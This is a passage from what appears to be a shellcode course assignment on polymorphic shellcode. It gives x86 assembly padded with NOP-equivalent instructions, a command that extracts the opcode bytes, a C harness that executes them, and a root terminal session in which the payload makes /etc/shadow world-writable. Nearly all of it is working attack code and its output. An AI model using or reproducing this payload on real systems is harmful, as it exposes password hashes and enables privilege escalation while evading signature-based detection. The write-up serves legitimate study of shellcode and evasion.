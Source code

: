 ```term
       cdq                ; NOP Equivalent.

       mov ebx, esp       ; Copies value from ESP to EBX.
       pushfd             ; NOP Equivalent.
       mov cx, 0x1ff      ; Value that means in octal "0777".
       cmc                ; NOP Equivalent.
       int  0x80          ; Call to kernel.

       inc eax            ; Increment EAX to 1, value for syscall exit().
       pushad             ; NOP Equivalent.
       int 0x80           ; Call to kernel.
```

Let's dump the shellcode and test it!

```term
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# nasm -f elf32 1.asm -o 1.o && ld 1.o -o 1 
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# objdump -d ./1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 
's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x4d\x31\xc0\x99\x52\xb0\x0f\x9e\x68\x61\x64\x6f\x77\xfc\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x99\x89\xe3\x9c\x66\xb9\xff\x01\xf5\xcd\x80\x40\x60\xcd\x80"
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode#
```

```term
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x4d\x31\xc0\x99\x52\xb0\x0f\x9e\x68\x61\x64\x6f\x77\xfc\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x99\x89\xe3\x9c\x66\xb9\xff\x01\xf5\xcd\x80\x40\x60\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame #2

```term
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# gcc polymorphic.c -o polymorphic -fno-stack-protector -z execstack -w 
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# ls -la /etc/shadow
-rw-r--r-- 1 511 12079 1115 Dec 28 10:33 /etc/shadow
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# ./polymorphic 
Shellcode Length:  39
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# ls -la /etc/shadow 
-rwxrwxrwx 1 511 12079 1115 Dec 28 10:33 /etc/shadow
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# 
```
